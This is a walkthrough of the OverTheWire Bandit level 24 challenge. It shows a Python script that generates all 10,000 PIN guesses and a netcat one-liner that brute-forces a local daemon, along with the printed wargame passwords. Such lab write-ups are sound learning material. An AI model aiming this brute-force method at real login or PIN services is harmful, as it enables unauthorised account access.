 The prompt is:

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
> You do not need to create new connections each time

Well, that seems relatively straightforward.

```bash
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.92incHlbeQ$ cat solve24.py
```

I kinda wish that Ruby was installed, but I'll do my solution in Python:

```python
# solve24.py
pass_24 = "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
with open('input.txt', 'w') as f:
    for i in reversed(range(10000)):
        f.write(pass_24)
        f.write(' ')
        f.write(str(i).zfill(4))
        f.write('\n')
```

```bash
bandit24@bandit:/tmp/tmp.92incHlbeQ$ python3 solve24.py
bandit24@bandit:/tmp/tmp.92incHlbeQ$ head input.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9998
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9997
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9996
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9995
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9994
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9993
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9992
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9991
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9990
bandit24@bandit:/tmp/tmp.92incHlbeQ$ cat script.sh
cat input.txt | nc localhost 30002 | grep -v Wrong | tee -a output.txt
bandit24@bandit:/tmp/tmp.92incHlbeQ$ time bash script.sh
I am the pincode checker for user bandit25. Please enter the password for user
 bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

real    0m1.284s
user    0m0.010s
sys     0m0.000s
```
